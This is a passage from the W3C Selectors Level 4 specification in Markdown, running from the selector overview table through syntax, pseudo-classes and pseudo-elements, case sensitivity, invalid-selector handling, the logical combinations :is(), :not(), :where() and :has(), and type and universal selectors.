| `E[foo="bar"]` | an E element whose `foo` attribute value is exactly equal to `bar` | [§ 6.1 Attribute presence and value selectors](#selectors-4:attribute-representation) | 2 |
| `E[foo="bar" i]` | an E element whose `foo` attribute value is exactly equal to any (ASCII-range) case-permutation of `bar` | [§ 6.3 Case-sensitivity](#selectors-4:attribute-case) | 4 |
| `E[foo="bar" s]` | an E element whose `foo` attribute value is identical to `bar` | [§ 6.3 Case-sensitivity](#selectors-4:attribute-case) | 4 |
| `E[foo~="bar"]` | an E element whose `foo` attribute value is a list of whitespace-separated values, one of which is exactly equal to `bar` | [§ 6.1 Attribute presence and value selectors](#selectors-4:attribute-representation) | 2 |
| `E[foo^="bar"]` | an E element whose `foo` attribute value begins exactly with the string `bar` | [§ 6.2 Substring matching attribute selectors](#selectors-4:attribute-substrings) | 3 |
| `E[foo$="bar"]` | an E element whose `foo` attribute value ends exactly with the string `bar` | [§ 6.2 Substring matching attribute selectors](#selectors-4:attribute-substrings) | 3 |
| `E[foo*="bar"]` | an E element whose `foo` attribute value contains the substring `bar` | [§ 6.2 Substring matching attribute selectors](#selectors-4:attribute-substrings) | 3 |
| `E[foo\|="en"]` | an E element whose `foo` attribute value is a hyphen-separated list of values beginning with `en` | [§ 6.1 Attribute presence and value selectors](#selectors-4:attribute-representation) | 2 |
| `E:dir(ltr)` | an element of type E with left-to-right directionality (the document language specifies how directionality is determined) | [§ 7.1 The Directionality Pseudo-class: :dir()](#selectors-4:the-dir-pseudo) | 4 |
| `E:lang(sr, "*-Cyrl")` | an element of type E tagged as being in Serbian, (which typically uses Cyrillic, but can be written with Latin characters) but also anything written with Cyrillic characters | [§ 7.2 The Language Pseudo-class: :lang()](#selectors-4:the-lang-pseudo) | 2/4 |
| `E:any-link` | an E element being the source anchor of a hyperlink | [§ 8.1 The Hyperlink Pseudo-class: :any-link](#selectors-4:the-any-link-pseudo) | 4 |
| `E:link` | an E element being the source anchor of a hyperlink of which the target is not yet visited | [§ 8.2 The Link History Pseudo-classes: :link and :visited](#selectors-4:link) | 1 |
| `E:visited` | an E element being the source anchor of a hyperlink of which the target is already visited | [§ 8.2 The Link History Pseudo-classes: :link and :visited](#selectors-4:link) | 1 |
| `E:target` | an E element being the target of the current URL | [§ 8.3 The Target Pseudo-class: :target](#selectors-4:the-target-pseudo) | 3 |
| `E:scope` | an E element being a scoping root | [§ 8.4 The Reference Element Pseudo-class: :scope](#selectors-4:the-scope-pseudo) | 4 |
| `E:active` | an E element that is in an activated state | [§ 9.2 The Activation Pseudo-class: :active](#selectors-4:the-active-pseudo) | 1 |
| `E:hover` | an E element that is under the cursor, or that has a descendant under the cursor | [§ 9.1 The Pointer Hover Pseudo-class: :hover](#selectors-4:the-hover-pseudo) | 2 |
| `E:focus` | an E element that has user input focus | [§ 9.3 The Input Focus Pseudo-class: :focus](#selectors-4:the-focus-pseudo) | 2 |
| `E:focus-within` | an E element that has user input focus or contains an element that has input focus. | [§ 9.5 The Focus Container Pseudo-class: :focus-within](#selectors-4:the-focus-within-pseudo) | 4 |
| `E:focus-visible` | an E element that has user input focus, and the UA has determined that a focus ring or other indicator should be drawn for that element | [§ 9.4 The Focus-Indicated Pseudo-class: :focus-visible](#selectors-4:the-focus-visible-pseudo) | 4 |
| `E:enabledE:disabled` | a user interface element E that is enabled or disabled, respectively | [§ 12.1.1 The :enabled and :disabled Pseudo-classes](#selectors-4:enableddisabled) | 3 |
| `E:read-write` `E:read-only` | a user interface element E that is user alterable, or not | [§ 12.1.2 The Mutability Pseudo-classes: :read-only and :read-write](#selectors-4:rw-pseudos) | 3-UI/4 |
| `E:placeholder-shown` | an input control currently showing placeholder text | [§ 12.1.3 The Placeholder-shown Pseudo-class: :placeholder-shown](#selectors-4:placeholder) | 3-UI/4 |
| `E:default` | a user interface element E that is the default item in a group of related choices | [§ 12.1.5 The Default-option Pseudo-class: :default](#selectors-4:the-default-pseudo) | 3-UI/4 |
| `E:checked` `E:unchecked` `E:indeterminate` | a user interface element E that is checked/selected (for instance a radio-button or checkbox), unchecked, or in an indeterminate state (neither checked nor unchecked) | [§ 12.2 Input Value States](#selectors-4:input-value-states) | 3 |
| `E:valid` `E:invalid` | a user-input element E that meets, or doesn’t, its data validity semantics | [§ 12.3.1 The Validity Pseudo-classes: :valid and :invalid](#selectors-4:validity-pseudos) | 3-UI/4 |
| `E:in-range` `E:out-of-range` | a user-input element E whose value is in-range/out-of-range | [§ 12.3.2 The Range Pseudo-classes: :in-range and :out-of-range](#selectors-4:range-pseudos) | 3-UI/4 |
| `E:required` `E:optional` | a user-input element E that requires/does not require input | [§ 12.3.3 The Optionality Pseudo-classes: :required and :optional](#selectors-4:opt-pseudos) | 3-UI/4 |
| `E:user-invalid` | a user-altered user-input element E with incorrect input (invalid, out-of-range, omitted-but-required) | [§ 12.3.4 The User-interaction Pseudo-classes: :user-valid and :user-invalid](#selectors-4:user-pseudos) | 4 |
| `E:root` | an E element, root of the document | [§ 13.1 :root pseudo-class](#selectors-4:the-root-pseudo) | 3 |
| `E:empty` | an E element that has no children (neither elements nor text) except perhaps white space | [§ 13.2 :empty pseudo-class](#selectors-4:the-empty-pseudo) | 3 |
| `E:nth-child(n [of S]?)` | an E element, the *n*-th child of its parent matching *S* | [§ 13.3.1 :nth-child() pseudo-class](#selectors-4:the-nth-child-pseudo) | 3/4 |
| `E:nth-last-child(n [of S]?)` | an E element, the *n*-th child of its parent matching *S*, counting from the last one | [§ 13.3.2 :nth-last-child() pseudo-class](#selectors-4:the-nth-last-child-pseudo) | 3/4 |
| `E:first-child` | an E element, first child of its parent | [§ 13.3.3 :first-child pseudo-class](#selectors-4:the-first-child-pseudo) | 2 |
| `E:last-child` | an E element, last child of its parent | [§ 13.3.4 :last-child pseudo-class](#selectors-4:the-last-child-pseudo) | 3 |
| `E:only-child` | an E element, only child of its parent | [§ 13.3.5 :only-child pseudo-class](#selectors-4:the-only-child-pseudo) | 3 |
| `E:nth-of-type(n)` | an E element, the *n*-th sibling of its type | [§ 13.4.1 :nth-of-type() pseudo-class](#selectors-4:the-nth-of-type-pseudo) | 3 |
| `E:nth-last-of-type(n)` | an E element, the *n*-th sibling of its type, counting from the last one | [§ 13.4.2 :nth-last-of-type() pseudo-class](#selectors-4:the-nth-last-of-type-pseudo) | 3 |
| `E:first-of-type` | an E element, first sibling of its type | [§ 13.4.3 :first-of-type pseudo-class](#selectors-4:the-first-of-type-pseudo) | 3 |
| `E:last-of-type` | an E element, last sibling of its type | [§ 13.4.4 :last-of-type pseudo-class](#selectors-4:the-last-of-type-pseudo) | 3 |
| `E:only-of-type` | an E element, only sibling of its type | [§ 13.4.5 :only-of-type pseudo-class](#selectors-4:the-only-of-type-pseudo) | 3 |
| `E F` | an F element descendant of an E element | [§ 14.1 Descendant combinator ( )](#selectors-4:descendant-combinators) | 1 |
| `E > F` | an F element child of an E element | [§ 14.2 Child combinator (>)](#selectors-4:child-combinators) | 2 |
| `E + F` | an F element immediately preceded by an E element | [§ 14.3 Next-sibling combinator (+)](#selectors-4:adjacent-sibling-combinators) | 2 |
| `E ~ F` | an F element preceded by an E element | [§ 14.4 Subsequent-sibling combinator (~)](#selectors-4:general-sibling-combinators) | 3 |

> **Note:** Some Level 4 selectors (noted above as "3-UI") were introduced in [CSS3UI].

### 3.  Selector Syntax and Structure {#selectors-4:syntax}

#### 3.1.  Structure and Terminology {#selectors-4:structure}

A **selector** represents a particular pattern of element(s) in a tree structure. The term selector can refer to a simple selector, compound selector, complex selector, or selector list. The **subject of a selector** is any element that selector is defined to be about; that is, any element **matching** that selector.

A **simple selector** is a single condition on an element. A type selector, universal selector, attribute selector, class selector, ID selector, or pseudo-class is a simple selector. (It is represented by `<simple-selector>` in the selectors [grammar](#selectors-4:grammar).) A given element is said to match a simple selector when that simple selector, as defined in this specification and in accordance with the document language, accurately describes the element.

A **compound selector** is a sequence of simple selectors that are not separated by a combinator, and represents a set of simultaneous conditions on a single element. If it contains a type selector or universal selector, that selector must come first in the sequence. Only one type selector or universal selector is allowed in the sequence. (A compound selector is represented by `<compound-selector>` in the selectors [grammar](#selectors-4:grammar).) A given element is said to match a compound selector when it matches all simple selectors in the compound selector.

> **Note:** As whitespace represents the descendant combinator, no whitespace is allowed between the simple selectors in a compound selector.

A **pseudo-compound selector** is a pseudo-element selector, optionally followed by additional pseudo-class selectors, and optionally preceded by a compound selector or another pseudo-compound selector, without any combinators. (A pseudo-compound selector is represented by `<pseudo-compound-selector>` in the selectors [grammar](#selectors-4:grammar).) A pseudo-element matches a pseudo-compound selector when it has the specified pseudo-element name, matches the additional conditions represented by any pseudo-classes, and has an originating element represented by the adjacent preceding selector. If there is no adjacent preceding selector, the universal selector is assumed. (For example, `.foo ::before` is equivalent to `.foo *::before`, and distinct from `.foo::before`.)

> **Example:** For example, in `.foo::before:hover`, the `.foo` is a compound selector, while the `::before:hover` is a pseudo-compound selector. However, in `.foo::before::marker`, `::before` and `::marker` are separate pseudo-compound selectors.

> **Note:** A pseudo-compound selector **is not** a compound selector, and can’t be used in places that expect a compound selector only. Pseudo-compound selectors act as if they carry a combinator with themselves, expressing their relationship with their originating element, just as the `>` combinator expresses a relationship with a parent element.

A **combinator** is a condition of relationship between two elements represented by the compound selectors on either side. Combinators in Selectors Level 4 include: the descendant combinator (white space), the child combinator (U+003E, `>`), the next-sibling combinator (U+002B, `+`), and the subsequent-sibling combinator (U+007E, `~`). Two given elements are said to match a combinator when the condition of relationship between these elements is true.

A **complex selector** is a sequence of one or more compound selectors and/or pseudo-compound selectors, with compound selectors separated by combinators. It represents a set of simultaneous conditions on a set of elements in the particular relationships described by its combinators. (Complex selectors are represented by `<complex-selector>` in the selectors [grammar](#selectors-4:grammar).) A given element or pseudo-element is said to match a complex selector when it matches the final compound/pseudo-compound selector in the sequence, and every preceding unit of the sequence also matches an element or pseudo-element, with the correct relationship between consecutive units as expressed by the combinators separating them (or, for pseudo-compound selectors, the correct originating element relationship).

> **Example:** For example, `.foo.bar` matches an element with both "foo" and "bar" classes.
>
> `.ancestor > .foo.bar` matches a subset of those elements: only those whose parent element (as indicated by the `>` combinator) has the "ancestor" class.
>
> `.foo.bar::before` matches a `::before` pseudo-element, whose originating element matches `.foo.bar`.

A **list of simple/compound/complex selectors** is a comma-separated list of simple, compound, or complex selectors. This is also called just a **selector list** when the type is either unimportant or specified in the surrounding prose; if the type is important and unspecified, it defaults to meaning a list of complex selectors. (See [§ 4.1 Selector Lists](#selectors-4:grouping) for additional information on selector lists and the various <*-selector-list> productions in the [grammar](#selectors-4:grammar) for their formal syntax.) A given element is said to match a selector list when it matches any (at least one) of the selectors in that selector list.

#### 3.2.  Data Model {#selectors-4:data-model}

Selectors are evaluated against an element tree such as the DOM. [DOM] Within this specification, this may be referred to as the "document tree" or "source document".

Each element may have any of the following five aspects, which can be selected against, all of which are matched as strings:

- The element’s type (also known as its tag name).
- The element’s namespace.
- An ID.
- Classes (named groups) to which it belongs.
- Attributes, which are name-value pairs.

Many of the selectors depend on the semantics of the **document language** (i.e. the language and semantics of the document tree) and/or the semantics of the **host language** (i.e. the language that is using selectors syntax). For example, the `:lang()` selector depends on the document language (e.g. HTML) to define how an element is associated with a language. As a slightly different example, the `::first-line` pseudo-element depends on the host language (e.g. CSS) to define what a `::first-line` pseudo-element represents and what it can do.

##### 3.2.1.  Featureless Elements {#selectors-4:featureless-elements}

While individual elements may lack any of the above features, some elements are **featureless**. A featureless element does not match *any selector at all*, except:

- simple selectors it is explicitly defined to match
- compound selectors, if all contained simple selectors are allowed to match it
- complex selectors, if the compound selector targeting the subject is allowed to match it
- selector lists, if at least one selector in the list is allowed to match it
- logical combination pseudo-classes, if their argument selector is allowed to match it
- the `:has()` pseudo-class, if and only if the compound selector it’s part of contains at least one *other* simple selector that’s allowed to match it.

If a selector would otherwise match a featureless element, except for the existence of the default namespace [CSS3NAMESPACE] (because featureless elements do not have a namespace unless otherwise defined), the default namespace does not prevent the match.

> **Example:** For example, the shadow host in a shadow tree is featureless, and can’t be matched by *any* pseudo-class except for `:host` and `:host-context()` (or combinations including those, such as `:is(:host, :root)`).
>
> Logical combinations like `:not(.foo:host)` will never match the host element (even if it doesn’t have a "foo" class), because not all of the simple selectors in `.foo:host` are allowed to match the shadow host.
>
> Similarly, `:not(:host > .foo)` will never match the shadow host, even tho the shadow host is indeed *not* a descendant of itself and doesn’t have the "foo" class, because the subject of the complex selector argument (`.foo`) isn’t allowed to match the shadow host.

> **Example:** In general, you can’t match a featureless element without explicitly using one of the simple selectors it’s allowed to match, to avoid accidentally selecting one of these elements (which are otherwise *intentionally* easy to not think about). For example, `*` will never match a featureless element.
>
> The rule for `:has()`, above, works similarly. Even if a shadow host contains a `.foo` descendant, `:has(.foo)` will not match it, because *the rest* of the compound selector (empty) doesn’t contain a simple selector that can match the host. You have to write `:host:has(.foo)` in order to match the host element.

#### 3.3.  Scoped Selectors {#selectors-4:scoping}

Some host applications may choose to **scope** selectors to a particular subtree or fragment of the document, The root of the scoping subtree is called the **scoping root**.

When a selector is scoped, it matches an element only if the element is a descendant of the scoping root. (The rest of the selector can match unrestricted; it’s only the final matched elements that must be within the scope.)

> **Example:** For example, the `querySelector()` method defined in [DOM] allows the author to evaluate a scoped selector relative to the element it’s called on.
>
> A call like `widget.querySelector("a")` will thus only find `a` elements inside of the `widget` element, ignoring any other `a`s that might be scattered throughout the document.

#### 3.4.  Relative Selectors {#selectors-4:relative}

Certain contexts may accept **relative selectors**, which are a shorthand for selectors that represent elements relative to one or more **relative selector anchor elements**. Relative selectors begin with a combinator, with a selector representing the anchor element implied at the start of the selector. (If no combinator is present, the descendant combinator is implied.)

Relative selectors are represented by `<relative-selector>` in the selectors [grammar](#selectors-4:grammar), and lists of them by `<relative-selector-list>`.

#### 3.5.  Pseudo-classes {#selectors-4:pseudo-classes}

**Pseudo-classes** are simple selectors that permit selection based on information that lies outside of the document tree or that can be awkward or impossible to express using the other simple selectors. They can also be dynamic, in the sense that an element can acquire or lose a pseudo-class while a user interacts with the document, without the document itself changing. Pseudo-classes do not appear in or modify the document source or document tree.

The syntax of a pseudo-class consists of a ":" (U+003A COLON) followed by the name of the pseudo-class as a CSS identifier, and, in the case of a **functional pseudo-class**, a pair of parentheses containing its arguments.

> **Example:** For example, `:valid` is a regular pseudo-class, and `:lang()` is a functional pseudo-class.

Like all CSS keywords, pseudo-class names are ASCII case-insensitive. No white space is allowed between the colon and the name of the pseudo-class, nor, as usual for CSS syntax, between a functional pseudo-class’s name and its opening parenthesis (which thus form a CSS function token). Also as usual, white space is allowed around the arguments inside the parentheses of a functional pseudo-class unless otherwise specified.

Like other simple selectors, pseudo-classes are allowed in all compound selectors contained in a selector, and must follow the type selector or universal selector, if present.

> **Note:** Some pseudo-classes are mutually exclusive (such that a compound selector containing them, while valid, will never match anything), while others can apply simultaneously to the same element.

#### 3.6. Pseudo-elements {#selectors-4:pseudo-elements}

Similar to how certain pseudo-classes represent additional state information not directly present in the document tree, a **pseudo-element** represents an *element* not directly present in the document tree. They are used to create abstractions about the document tree beyond those provided by the document tree. For example, pseudo-elements can be used to select portions of the document that do not correspond to a document-language element (including such ranges as don’t align to element boundaries or fit within its tree structure); that represent content not in the document tree or in an alternate projection of the document tree; or that rely on information provided by styling, layout, user interaction, and other processes that are not reflected in the document tree.

> **Example:** For instance, document languages do not offer mechanisms to access the first letter or first line of an element’s content, but there exist pseudo-elements (`::first-letter` and `::first-line`) that allow those things to be styled. Notice especially that in the case of `::first-line`, which portion of content is represented by the pseudo-element depends on layout information that cannot be inferred from the document tree.
>
> Pseudo-elements can also represent content that doesn’t exist in the source document at all, such as the `::before` and `::after` pseudo-elements which allow additional content to be inserted before or after the contents of any element.

Like pseudo-classes, pseudo-elements do not appear in or modify the document source or document tree. Accordingly, they also do not affect the interpretation of structural pseudo-classes or other selectors pertaining to their originating element or its tree.

The host language defines which pseudo-elements exist, their type, and their abilities. Pseudo-elements that exist in CSS are defined in [CSS21] (Level 2), [SELECT] (Level 3), and [CSS-PSEUDO-4] (Level 4).

##### 3.6.1.  Syntax {#selectors-4:pseudo-element-syntax}

The syntax of a pseudo-element is "::" (two U+003A COLON characters) followed by the name of the pseudo-element as an identifier, and, in the case of a **functional pseudo-element**, a pair of parentheses containing its arguments. Pseudo-element names are ASCII case-insensitive. No white space is allowed between the two colons, or between the colons and the name.

Because [CSS Level 1](https://www.w3.org/TR/CSS1) and [CSS Level 2](#css2) conflated pseudo-elements and pseudo-classes by sharing a single-colon syntax for both, user agents must also accept the previous one-colon notation for the Level 1 & 2 pseudo-elements (`::before`, `::after`, `::first-line`, and `::first-letter`). This compatibility notation is not allowed for any other pseudo-elements. However, as this syntax is deprecated, authors should use the Level 3+ double-colon syntax for these pseudo-elements.

Pseudo-elements are featureless, and so can’t be matched by any other selector.

##### 3.6.2.  Binding to the Document Tree {#selectors-4:pseudo-element-attachment}

Pseudo-elements do not exist independently in the tree: they are always bound to another element on the page, called their **originating element**. Syntactically, a pseudo-element immediately follows the compound selector representing its originating element. If this compound selector is omitted, it is assumed to be the universal selector `*`.

> **Example:** For example, in the selector `div a::before`, the `a` elements matched by the selector are the originating elements for the `::before` pseudo-elements attached to them.
>
> The selector `::first-line` is equivalent to `*::first-line`, which selects the `::first-line` pseudo-element on *every* element in the document.

When a pseudo-element is encountered in a selector, the part of the selector before the pseudo-element selects the originating element for the pseudo-element; the part of the selector after it, if any, applies to the pseudo-element itself. (See below.)

##### 3.6.3.  Pseudo-classing Pseudo-elements {#selectors-4:pseudo-element-states}

Certain pseudo-elements may be immediately followed by any combination of certain pseudo-classes, in which case the pseudo-element is represented only when it is in the corresponding state. This specification allows any pseudo-element to be followed by any combination of the logical combination pseudo-classes and the user action pseudo-classes. Other specifications may allow additional pseudo-classes to be attached to particular pseudo-elements. Combinations that are not explicitly allowed are invalid selectors.

> **Note:** The logical combination pseudo-classes pass any restrictions on validity of selectors at their position to their arguments.

> **Example:** For example, since the `:hover` pseudo-class specifies that it can apply to any pseudo-element, `::first-line:hover` will match when the first line is hovered. However, since neither `:focus` nor `::first-line` define that `:focus` can apply to `::first-line`, the selector `::first-line:focus` will never match anything.
>
> Notice that `::first-line:hover` is very different from `:hover::first-line`, which matches the first line of any originating element that is hovered! For example, `:hover::first-line` also matches the first line of a paragraph when the second line of the paragraph is hovered, whereas `::first-line:hover` only matches if the first line itself is hovered.

##### 3.6.4.  Sub-pseudo-elements {#selectors-4:sub-pseudo-elements}

Some pseudo-elements are able to be the originating element of other pseudo-elements, which are defined as the **sub-pseudo-elements** of this **originating pseudo-element**. For example, when `::before` is given a `list-item` display type, it becomes the originating pseudo-element of its `::before::marker` sub-pseudo-element.

Where disambiguation is needed, the term **ultimate originating element** refers to the real (non-pseudo) element from which a pseudo-element originates.

Unless the corresponding sub-pseudo-element is explicitly defined to exist in another specification, pseudo-element selectors are not valid when compounded to another pseudo-element selector. So, for example, `::before::before` is an invalid selector, but `::before::marker` is valid (in implementations that support the `::before::marker` sub-pseudo-element).

##### 3.6.5.  Internal Structure {#selectors-4:pseudo-element-structure}

Some pseudo-elements are defined to have internal structure. These pseudo-elements may be followed by child/descendant combinators to express those relationships. Selectors containing combinators after the pseudo-element are otherwise invalid.

> **Example:** For example, `::first-letter + span` and `::first-letter em` are invalid selectors. However, if a new `::shadow` pseudo-element were defined to have internal structure, `::shadow > p` would be a valid selector.

> **Note:** A future specification may expand the capabilities of existing pseudo-elements, so some of these currently-invalid selectors (e.g. `::first-line :any-link`) may become valid in the future.

The children of such pseudo-elements can simultaneously be children of other elements, too. However, at least in CSS, their rendering must be defined so as to maintain the tree-ness of the box tree.

#### 3.7.  Characters and case sensitivity {#selectors-4:case-sensitive}

All syntax defined by the Selectors spec is ASCII case-insensitive (i.e. [a-z] and [A-Z] are equivalent), as usual for CSS syntax—​this includes pseudo-class and pseudo-element names, and keywords used in various places, such as the `s` or `i` keyword in attribute selectors.

When matching Selectors to names and values defined by the document, by default this is done using the identical to operation (aka "case sensitive"), unless otherwise defined by the host language or another relevant specification. This includes element names, class names, IDs, attribute names, and attribute values.

> **Example:** For example, HTML has some mildly complex rules about matching certain names on HTML elements, which are *nearly* equivalent to being case-insensitive. See [HTML § 4.16.2 Case-sensitivity of selectors](https://html.spec.whatwg.org/multipage/semantics-other.html#case-sensitivity-of-selectors) for details—​this affects element names, attribute names, and *some* attribute values.
>
> (The HTML parser automatically ASCII-lowercases a number of these values, so the rules it defines are *usually* equivalent to being ASCII case-insensitive), but it is possible to produce attributes via scripting that retain their non-lowercase casing, and as a result cannot be matched by Selectors due to these rules.)

Case sensitivity of namespace prefixes is defined in [CSS3NAMESPACE]. Case sensitivity of language ranges is defined in the `:lang()` section.

**White space** in Selectors consists of the code points SPACE (U+0020), TAB (U+0009), LINE FEED (U+000A), CARRIAGE RETURN (U+000D), and FORM FEED (U+000C). Other space-like code points, such as EM SPACE (U+2003) and IDEOGRAPHIC SPACE (U+3000), are never considered syntactic white space.

Code points in Selectors can be escaped with a backslash according to the same [escaping rules](#css2:characters) as CSS. [CSS21] Note that escaping a code point “cancels out” any special meaning it may have in Selectors. For example, the selector `#foo>a` contains a combinator, but `#foo\>a` instead selects an element with the id `foo>a`.

#### 3.8.  Declaring Namespace Prefixes {#selectors-4:namespaces}

Certain selectors support namespace prefixes. The mechanism by which namespace prefixes are **declared** should be specified by the language that uses Selectors. If the language does not specify a namespace prefix declaration mechanism, then no prefixes are declared. In CSS, namespace prefixes are declared with the `@namespace` rule. [CSS3NAMESPACE]

#### 3.9.  Invalid Selectors and Error Handling {#selectors-4:invalid}

User agents must observe the rules for handling **invalid selectors**:

- a parsing error in a selector, e.g. an unrecognized token or a token which is not allowed at the current parsing point (see overall [§ 16 Grammar](#selectors-4:grammar) and per-selector syntax definitions), causes that selector to be invalid.
- a simple selector containing an [undeclared namespace prefix](#selectors-4:namespaces) is invalid
- a selector containing an invalid simple selector, an invalid combinator or an invalid token is invalid.
- a selector list containing an invalid selector is invalid.
- an empty selector, i.e. one that contains no compound selector, is invalid.

> **Note:** Consistent with CSS’s forwards-compatible parsing principle, UAs *must* treat as invalid any pseudo-classes, pseudo-elements, combinators, or other syntactic constructs for which they have no usable level of support. See [Partial implementations](#selectors-4:w3c-partial).

An invalid selector represents, and therefore matches, nothing.

#### 3.10.  Legacy Aliases {#selectors-4:legacy-aliasing}

Some selectors have a **legacy selector alias**. This is a name which, at parse time, is converted to the standard name (and thus does not appear anywhere in any object model representing the selector).

### 4.  Logical Combinations {#selectors-4:logical-combination}

Selector logic can be manipulated by compounding (logical AND), selector lists (logical OR), and the **logical combination pseudo-classes** `:is()`, `:where()`, and `:not()`. The logical combination pseudo-classes are allowed anywhere that any other pseudo-classes are allowed, but pass any restrictions to their arguments. (For example, if only compound selectors are allowed, then only compound selectors are valid within an `:is()`.)

> **Note:** Since inside `:is()` and `:where()` invalid arguments are dropped without invaliding the pseudo-class itself, selector arguments that are invalidated by contextual restrictions likewise do not invalidate the `:is()` pseudo-class itself.

#### 4.1.  Selector Lists {#selectors-4:grouping}

A comma-separated list of selectors represents the union of all elements selected by each of the individual selectors in the selector list. (A comma is U+002C.) For example, in CSS when several selectors share the same declarations, they may be grouped into a comma-separated list. White space may appear before and/or after the comma.

> **Example:** CSS example: In this example, we condense three rules with identical declarations into one. Thus,
>
> ```
> h1 { font-family: sans-serif }
> h2 { font-family: sans-serif }
> h3 { font-family: sans-serif }
> ```
>
> is equivalent to:
>
> ```
> h1, h2, h3 { font-family: sans-serif }
> ```

**Warning**: the equivalence is true in this example because all the selectors are valid selectors. If just one of these selectors were invalid, the entire selector list would be invalid. This would invalidate the rule for all three heading elements, whereas in the former case only one of the three individual heading rules would be invalidated.

> **Example:** Invalid CSS example:
>
> ```
> h1 { font-family: sans-serif }
> h2..foo { font-family: sans-serif }
> h3 { font-family: sans-serif }
> ```
>
> is not equivalent to:
>
> ```
> h1, h2..foo, h3 { font-family: sans-serif } 
> ```
>
> because the above selector (`h1, h2..foo, h3`) is entirely invalid and the entire style rule is dropped. (When the selectors are not grouped, only the rule for `h2..foo` is dropped.)

#### 4.2.  The Matches-Any Pseudo-class: `:is()` {#selectors-4:matches}

The matches-any pseudo-class, **:is()**, is a functional pseudo-class taking a `<forgiving-selector-list>` as its sole argument.

If the argument, after parsing, is an empty list, the pseudo-class is valid but matches nothing. Otherwise, the pseudo-class matches any element that matches any of the selectors in the list.

> **Note:** The specificity of the `:is()` pseudo-class is replaced by the specificity of its most specific argument. Thus, a selector written with `:is()` does not necessarily have equivalent specificity to the equivalent selector written without `:is()` For example, if we have `:is(ul, ol, .list) > [hidden]` and `ul > [hidden], ol > [hidden], .list > [hidden]` a `[hidden]` child of an `ol` matches the first selector with a specificity of (0,2,0) whereas it matches the second selector with a specificity of (0,1,1). See [§ 15 Calculating a selector’s specificity](#selectors-4:specificity-rules).

Pseudo-elements cannot be represented by the matches-any pseudo-class; they are not valid within `:is()`.

Default namespace declarations do not affect the compound selector representing the subject of any selector within a `:is()` pseudo-class, unless that compound selector contains an explicit universal selector or type selector.

> **Example:** For example, the following selector matches any element that is being hovered or focused, regardless of its namespace. In particular, it is not limited to only matching elements in the default namespace that are being hovered or focused.
>
> ```
> *|*:is(:hover, :focus) 
> ```
>
> The following selector, however, represents only hovered or focused elements that are in the default namespace, because it uses an explicit universal selector within the `:is()` notation:
>
> ```
> *|*:is(*:hover, *:focus) 
> ```

As previous drafts of this specification used the name **:matches()** for this pseudo-class, UAs may additionally implement this obsolete name as a legacy selector alias for `:is()` if needed for backwards-compatibility.

#### 4.3.  The Negation (Matches-None) Pseudo-class: `:not()` {#selectors-4:negation}

The negation pseudo-class, **:not()**, is a functional pseudo-class taking a `<complex-real-selector-list>` as an argument. It represents an element that is not represented by its argument.

> **Note:** In Selectors Level 3, only a single simple selector was allowed as the argument to `:not()`.

> **Note:** The specificity of the `:not()` pseudo-class is replaced by the specificity of the most specific selector in its argument; thus it has the exact behavior of `:not(:is(argument))`. See [§ 15 Calculating a selector’s specificity](#selectors-4:specificity-rules).

Pseudo-elements cannot be represented by the negation pseudo-class; they are not valid within `:not()`.

> **Example:** For example, the following selector matches all button elements in an HTML document that are not disabled.
>
> ```
> button:not([DISABLED]) 
> ```
>
> The following selector represents all but FOO elements.
>
> ```
> *:not(FOO)
> ```
>
> The following compound selector represents all HTML elements except links.
>
> ```
> html|*:not(:link):not(:visited)
> ```

As with `:is()`, default namespace declarations do not affect the compound selector representing the subject of any selector within a `:not()` pseudo-class, unless that compound selector contains an explicit universal selector or type selector. (See `:is()` for examples.)

> **Note:** The `:not()` pseudo-class allows useless selectors to be written. For instance `:not(*|*)`, which represents no element at all, or `div:not(span)`, which is equivalent to `div` but with a higher specificity.

#### 4.4.  The Specificity-adjustment Pseudo-class: `:where()` {#selectors-4:zero-matches}

The Specificity-adjustment pseudo-class, **:where()**, is a functional pseudo-class with the same syntax and functionality as `:is()`. Unlike `:is()`, neither the `:where()` pseudo-class, nor any of its arguments, contribute to the specificity of the selector—​its specificity is always zero.

This is useful for introducing filters in a selector while keeping the associated style declarations easy to override.

> **Example:** Below is a common example where the specificity heuristic fails to match author expectations:
>
> ```
> a:not(:hover) {
>   text-decoration: none;
> }
>
> nav a {
>   /* Has no effect */
>   text-decoration: underline;
> }
> ```
>
> However, by using `:where()` the author can explicitly declare their intent:
>
> ```
> a:where(:not(:hover)) {
>   text-decoration: none;
> }
>
> nav a {
>   /* Works now! */
>   text-decoration: underline;
> }
> ```

> **Note:** Future levels of Selectors may introduce an additional argument to explicitly set the specificity of that instance of the pseudo-class.

#### 4.5.  The Relational Pseudo-class: `:has()` {#selectors-4:relational}

The relational pseudo-class, **:has()**, is a functional pseudo-class taking a `<relative-selector-list>` as an argument. It represents an element if any of the relative selectors would match at least one element when anchored against this element.

The `:has()` pseudo-class cannot be nested; `:has()` is not valid within `:has()`. Also, unless explicitly defined as a **:has-allowed pseudo-element**, pseudo-elements are not valid selectors within `:has()`. (This specification does not define any :has-allowed pseudo-elements, but other specifications may do so.)

> **Note:** Pseudo-elements are generally excluded from `:has()` because many of them exist conditionally, based on the styling of their ancestors, so allowing these to be queried by `:has()` would introduce cycles.

> **Note:** Since `:has()` takes a `<relative-selector-list>`, its arguments are *inherently* complex selectors (because they start, perhaps implicitly, with a combinator). This means `:has()` cannot be used in contexts that don’t allow complex selectors; its arguments will be guaranteed to be invalid.

> **Example:** For example, the following selector matches only `<a>` elements that contain an `` child:
>
> ```
> a:has(> img)
> ```
>
> The following selector matches a `<dt>` element immediately followed by another `<dt>` element:
>
> ```
> dt:has(+ dt)
> ```
>
> The following selector matches `<section>` elements that don’t contain any heading elements:
>
> ```
> section:not(:has(h1, h2, h3, h4, h5, h6))
> ```
>
> Note that ordering matters in the above selector. Swapping the nesting of the two pseudo-classes, like:
>
> ```
> section:has(:not(h1, h2, h3, h4, h5, h6))
> ```
>
> ...would result in matching any `<section>` element which contains anything that’s not a heading element.

### 5.  Elemental selectors {#selectors-4:elemental-selectors}

#### 5.1.  Type (tag name) selector {#selectors-4:type-selectors}

A **type selector** is the name of a document language element type, and represents an instance of that element type in the document tree.

> **Example:** For example, the selector `h1` represents an h1 element in the document.

A type selector is written as a CSS qualified name: an identifier with an optional namespace prefix. [CSS3NAMESPACE] (See [§ 5.3 Namespaces in Elemental Selectors](#selectors-4:type-nmsp).)

#### 5.2.  Universal selector {#selectors-4:the-universal-selector}

The **universal selector** is a special type selector, that represents an element of any element type.

It is written as a CSS qualified name with an asterisk (`*` U+002A) as the local name. Like a type selector, the universal selector can be qualified by a namespace, restricting it to only elements belonging to that namespace, and is affected by a default namespace as defined in [§ 5.3 Namespaces in Elemental Selectors](#selectors-4:type-nmsp).

